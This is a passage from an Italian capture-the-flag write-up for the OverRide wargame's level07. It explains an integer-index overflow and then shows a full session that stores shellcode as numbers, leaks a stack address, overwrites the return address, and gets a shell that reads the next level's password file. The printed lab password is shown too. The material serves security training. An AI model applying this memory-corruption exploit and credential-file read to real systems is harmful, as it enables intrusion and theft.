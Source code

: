 ```
```
mentre all'indice `114` avremo l'indirizzo in `eip`, purtroppo `114` è
divisibile per 3 dunque bisognerà applicare la formula di prima per avere
l'indice da scrivere:
```
4294967296 / 4 + 114 = 1073741938
```
Ora abbiamo tutto, procediamo:
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 1750122545
 Index: 1073741824
 Completed store command successfully
Input command: store
 Number: 1752379183
 Index: 1
 Completed store command successfully
Input command: store
 Number: 1768042344
 Index: 2
 Completed store command successfully
Input command: store
 Number: 1357089134
 Index: 1073741827
 Completed store command successfully
Input command: store
 Number: 836864339
 Index: 4
 Completed store command successfully
Input command: store
 Number: 2198581458
 Index: 5
 Completed store command successfully
Input command: store
 Number: 2160980196
 Index: 1073741830
 Completed store command successfully
Input command: read
 Index: -9
 Number at data[4294967287] is 4294956388
 Completed read command successfully
Input command: store
 Number: 4294956388
 Index: 1073741938
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
$ exit
```
